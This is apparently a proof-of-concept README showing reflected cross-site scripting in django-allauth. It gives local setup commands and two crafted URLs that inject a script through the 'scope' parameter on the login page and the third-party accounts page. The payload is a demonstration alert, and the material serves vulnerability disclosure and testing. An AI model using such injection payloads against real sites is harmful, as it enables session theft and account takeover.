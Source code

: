 # poc-xss-django-allauth

## Set up

- `uv run manage.py migrate`
- `uv run manage.py createsuperuser`
- `uv run manage.py runserver`

## PoC

- While logged out, go to `http://127.0.0.1:8000/accounts/login/?scope=%3C/script%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cscript%3E`
- While logged in, go to `http://127.0.0.1:8000/accounts/3rdparty/?scope=%3C/script%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cscript%3E`
